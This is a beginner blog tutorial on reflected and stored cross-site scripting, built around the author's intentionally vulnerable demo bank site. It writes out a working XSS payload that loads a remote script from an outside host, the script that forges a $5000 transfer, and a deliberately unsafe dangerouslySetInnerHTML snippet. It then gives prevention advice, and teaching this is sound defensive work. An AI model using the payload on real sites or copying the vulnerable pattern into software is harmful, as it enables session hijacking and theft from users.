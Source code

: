 ```yaml
---
title: "Web Security 101: Cross-Site Scripting (XSS) Attacks"
date: "2020-06-01T12:00:00.000Z"
template: "post"
draft: false
isWeb: true
slug: "/blog/xss/"
img: "https://rifkihp.com/media/xss-post/dsb_4.png"
category: "Security"
tags:
  - "Security"
  - "Web Development"
  - "For Beginners"
  - "Demo"
  - "Javascript"
description: A hands-on beginner's guide to what XSS attacks are and how to prevent them.
prev: "/blog/csrf/"
next: "/blog/properly-size-images/"
---
```


Cross-Site Scripting (XSS) vulnerabilities are one of the most dangerous web security holes that exist. In this post, we'll see an **interactive demo of XSS** and learn how to protect against it.

> This is the second post in my [Web Security 101](/tag/security/) series. If you've read my introduction to CSRF, some of the preamble below might look familiar... feel free to skip ahead a bit.

## Setting the Scene

Picture this: you're a responsible, hardworking person. You've saved up your money over the years at **Definitely Secure Bank®**.

<figure>
  <img src="/media/csrf-post/dsb.svg" alt="The Definitely Secure Bank logo" style="background-color: transparent;" />
  <figcaption>The Definitely Secure Bank logo.</figcaption>
</figure>

You love Definitely Secure Bank - they've always been good to you, plus they make it easy to transfer money and more via their website. Sweet, right?

To get in character, let's have you open up your online banking portal and look around. <b><a href="https://dsb.rifkihp.com/login" target="_blank">Click here to open Definitely Secure Bank's website</a></b> and login. Use **any username** and **any password** you want (don't worry - it's _definitely_ secure). Keep that tab open for the rest of this post.

Once you've logged in, you should see a landing page that looks something like this:

![](./media-link/xss-post/dsb_1.png)

Click the **"Try searching for the answer"** link. That will bring you to the Search page. Play around with it:

![](./media-link/xss-post/dsb_2.png)

Not a very helpful Search page.

## One Fateful Day...

...you get an email titled: **FREE 🎁 iPhone giveaway!!!**

You open the email and click the link: **[➡️ Claim your free iPhone ⬅️](
https://dsb.rifkihp.com/search?q=%3Cimg%20src%3D%22%23%22%20onerror%3D%22const%20a%3Ddocument.createElement(%27script%27)%3Ba.src%3D%27https%3A%2F%2Frifkihp.com%2Fxss-demo.js%27%3Bdocument.body.appendChild(a)%3B%22%20%2F%3E)**.

> Yes, I actually want you to click this link for the purposes of the demo.

Assuming you were logged in to Definitely Secure Bank (DSB), you should see something like this after clicking the link:

![](./media-link/xss-post/dsb_3.png)

It's a little weird that it took you to your bank's website, but it just seems like a broken link, right? Nothing to worry about?

Click back to your DSB homepage, and you should see a new transfer:

![](./media-link/xss-post/dsb_4.png)

How did that happen?!

## How It Happened

The key vulnerability here is that the DSB search results page **echoes the search query without sanitizing it**. Remember this screenshot from earlier?

![](./media-link/xss-post/dsb_2.png)

Notice how the search query ("How do I transfer money") is echoed back onto the page: _Unfortunately, no results were found for **How do I transfer money**_.

What if our search query was a valid HTML string?

![](./media-link/xss-post/dsb_5.png)

Woah. That HTML `<a>` tag actually renders and functions as a link. Seems insecure, doesn't it?

Let's look at the demo attack from earlier. The attacker used a link to the DSB search results page with this format:

https://dsb.rifkihp.com/search?q=SEARCH_QUERY_HERE

The value of `SEARCH_QUERY_HERE` was:

```
%3Cimg%20src%3D%22%23%22%20onerror%3D%22const%20a%3Ddocument.createElement(%27script%27)%3Ba.src%3D%27https%3A%2F%2Frifkihp.com%2Fxss-demo.js%27%3Bdocument.body.appendChild(a)%3B%22%20%2F%3E
```

which [URL decodes](https://www.quora.com/What-is-URL-encoding-and-decoding) to:

```
<img src="#" onerror="const a=document.createElement('script');a.src='https://rifkihp.com/xss-demo.js';document.body.appendChild(a);" />
```

Look familiar? Let me syntax highlight that for you:

```html
<img src="#" onerror="const a=document.createElement('script');a.src='https://rifkihp.com/xss-demo.js';document.body.appendChild(a);" />
```

It's an image tag sourced from `"#"`, which errors and runs the Javascript code contained in the `onerror`! Here's the `onerror` code prettified:

```js
const a = document.createElement('script');
a.src = 'https://rifkihp.com/xss-demo.js';
document.body.appendChild(a);
```

This downloads the `xss-demo.js` script (which could be _anything_) and executes it. Here's what it contained in our case:

```js
// Header: xss-demo.js
const body = new URLSearchParams('amount=5000&description=Gotcha!&to=XSS-Attackers');
fetch('/transfer', {
  body,
  method: 'post',
});
```
<figcaption>Uses the <a href="https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API" target="_blank" rel="noopener noreferrer">Fetch API</a></figcaption>.

This sends an [HTTP POST](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/POST) request to the Definitely Secure Bank's (DSB) `/transfer` endpoint with these parameters:

| Parameter | Value |
| --- | --- |
| `amount` | 5000 |
| `description` | Gotcha! |
| `to` | XSS-Attackers |

**This request is identical to a legitimate transfer request** you would've created yourself. That's why XSS vulnerabilities are so dangerous - **the attacker can completely impersonate you** and do anything you could've done.

To summarize how clicking a spam link ended with you losing $5000:
- The link brought you to DSB's search results page, which unsafely reflects your search query.
- The search query was actually HTML code that caused your browser to download and execute an arbitrary script.
- That script sent a transfer request to the DSB server.
- The DSB server processed the request, since it saw nothing wrong.

There you have it: Cross-Site Scripting.

## Reflected vs. Stored XSS

The example above was an instance of **reflected XSS**, because it depended on DSB immediately reflecting a user input (the search query) back onto the page.

The other common type of XSS is **stored XSS** (or persistent XSS). This happens when the malicious code (usually an injected script, like in our example) is **stored on the target site's servers**. A classic example is storing user-generated comments without sanitizing them. An attacker could leave a malicious comment that injects a script, and **anyone who views that comment would be affected**.

## Do CSRF tokens protect against XSS?

You may have noticed that the `/transfer` endpoint has no [Cross-Site Request Forgery](/blog/csrf/) (CSRF) protection, which typically includes requiring a [CSRF token](/blog/csrf/#so-how-do-you-prevent-csrf-then). This was on purpose because it's used in my [CSRF demo](/blog/csrf/), which I recommend reading if you don't know what CSRF is.

To answer the question: **CSRF protection does nothing to prevent XSS** because XSS attacks don't originate from a different site, whereas CSRF attacks do. When done correctly, a request created by an XSS attack looks completely legitimate.

## How _do_ you prevent XSS?

It's simple: **sanitize user inputs**. Anytime you're inserting untrusted (user-generated) data onto your webpage, clean it first.

_How_ to do this cleaning is a bit outside of the scope of this post, but the good news is that it often comes for free. For example, [React](https://reactjs.org/), which the DSB site is built with, uses [JSX](https://reactjs.org/docs/introducing-jsx.html) syntax, which automatically [escapes values before rendering](https://reactjs.org/docs/introducing-jsx.html#jsx-prevents-injection-attacks) them, helping to prevent XSS attacks. To make the DSB search page vulnerable to XSS, I had to do this:

```jsx
<p>
  Unfortunately, no results were found for{' '}
  <span dangerouslySetInnerHTML={{ __html: query }} />.
</p>
```
<figcaption>
  DSB is open-source: you can see this code on <a href="https://github.com/rifkihp/definitely-secure-bank/blob/master/src/Search.js#L47-L50" target="_blank" rel="noopener noreferrer">Github</a>.
</figcaption>

Yup. It's named `dangerouslySetInnerHTML` for a reason.

If you're interested in the specifics of XSS prevention, I recommend this [XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html). Alternatively, if you want to learn more about web security in general, check out my [introduction to CSRF](/blog/csrf/) as mentioned before.

Thanks for reading, and stay safe!
